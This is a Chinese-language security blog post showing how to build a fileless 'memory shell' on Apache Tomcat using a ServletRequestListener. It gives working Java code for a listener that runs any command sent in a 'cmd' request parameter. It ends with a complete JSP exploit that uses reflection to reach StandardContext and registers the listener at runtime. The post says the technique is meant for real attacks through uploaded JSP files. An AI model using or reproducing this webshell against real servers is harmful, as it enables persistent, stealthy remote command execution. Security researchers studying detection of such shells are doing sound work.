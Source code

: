 ```yaml
---
layout: post
date: 2025-5-15
title: "Listener-内存马"
author: "XinYiSleep"
category: Java
---
```

<h1 id="GT0vV">一.基础信息</h1>

```
在上一篇文章中我们已经简单的了解了一下Listener了，那么首先能考虑被作为内存马的是ServletRequestListener：对请求对象的初始化和销毁进行监听
说人话就是每次请求的时候就是初始化，请求结束销毁，这一技术主要在Servlet3.0之后，并且呢tomcat7.x及以上才可以用，因为tomcat7.x在支持Servlet3.0，
为了方便调试我们添加包(代码一)，原因很简单你不加根本进不去(图一)。
懂点的可以先看一下图二。
```

```java
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.100</version>
</dependency>
```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/1.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/0.png)

<h1 id="Djyi0">二.动态注册</h1>

```
我们得知请求任意url的时候会被执行到监听器，首先这个监听器在写入之后需要重启才能生效,那么在实战中
我们不可能去修改代码更不可能重启别人服务，那么就需要动态注册，大致就是分析一下正常的Listener是怎么的一个过程，废话不多说，
首先我们需要创建一个恶意的Listener(代码一),在其中打上断点(图一)，走进StandardContext类中fireRequestInitEvent方法(图二)，
接着一直往上跟看看从哪里获取到了ListenerWeblshell的实例，在第一行getApplicationEventListeners方法中获取到了，那么看看是什么(图三,图四)，
得知他是一个类中的属性的话，那么需要修改他先看看有那么有Setter,发现是有的(图五)，到这里其实就已经结束了，现在我们的目的就是需要通过这个Setter进行动态注册打成目的。
```

```java
package com.example.webshell1;
import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Field;

@WebListener
public class ListenerWeblshell implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("销毁");
    }
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest servletRequest = (HttpServletRequest)sre.getServletRequest();
        String cmd = servletRequest.getParameter("cmd");
        if (cmd!=null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        }
        
    }
}

```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/2.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/3.5png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/3.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/4.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/5.png)

```
在上面我们得知存在setApplicationEventListeners和addApplicationEventListener都可以修改，
我们先用addApplicationEventListener，现在的问题是如何拿到StandardContext实例，
那我们往上推看看谁调用了StandardContext他是怎么拿到的(图一)，那我们就模拟他就行了问我具体干啥了一切不知道也不需要管他，
(代码一,图二)，那你就要问了，你这是个锤子内存马呀，图二中已经创建一个新的Litsener,你就算添加进去有什么用这不冗余了吗？
而且还需要改java代码你这不是天方夜谭吗？没错下面我们就要想到的攻击面了，如果说存在文件上传的情况下我们是否可以在JSP中进行操作呢？
答案是可以的因为JSP中九大核心内置对象中刚好有request(可以看上一篇文章简单了解一下)，
```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/6.png)

```java
package com.example.webshell1;

import org.apache.catalina.Context;
import org.apache.catalina.connector.Request;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.lang.reflect.Field;

@WebListener
public class ListenerWeblshell implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("销毁");
    }
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        //拿到StandardContext实例
        Request Reques = (Request)sre.getServletRequest();
        StandardContext context = (StandardContext)Reques.getContext();
        //修改添加我们的Listener
        TestListener testListener = new TestListener();
        context.addApplicationEventListener(testListener);
    }
}
```
![](https://xinyisleep.github.io/img/2025/Webshell/Listener/7.png)

<h1 id="cZYlj">三.完整Listener内存马</h1>

```
首先获取org.apache.catalina.connector.Request的实例，在JSP中request是org.apache.catalina.connector.RequestFacade他实现了HttpServletRequest(图一,图二)，
但是存在一个request属性刚好类型是Request(图三)，通过反射获取request，之后取出org.apache.coyote.Request，
强制转换成StandardContext对象，执行addApplicationListener，完整exp(代码一),访问这个JSP文件之后会添加一个新的Listener到ApplicationEventListener，
重新请求的时候getApplicationEventListeners就已经有我们的Listener了，到这里还是有点绕的可以手动测试看看，要是这都没理解那我也无能为力了，
这已经是手把手了，好了其实还是蛮简单的，下期见(冲冲冲)。

```

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/8.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/8.5.png)

![](https://xinyisleep.github.io/img/2025/Webshell/Listener/9.png)

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>


<%!
    public class TestListener implements ServletRequestListener {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
        }
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest servletRequest = (HttpServletRequest)sre.getServletRequest();
            String cmd = servletRequest.getParameter("cmd");
            if (cmd!=null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        }
    }
%>

<%
    //获取org.apache.coyote.Request实例
    //request实际上是org.apache.catalina.connector.RequestFacade他实现了HttpServletRequest
    Field request1 = request.getClass().getDeclaredField("request");
    request1.setAccessible(true);
    //上面获取了request属性取出org.apache.coyote.Request
    Request o = (Request)request1.get(request);
    //强制转换成StandardContext对象，执行addApplicationListener
    StandardContext context = (StandardContext)o.getContext();
    context.addApplicationEventListener(new TestListener());
%>

```



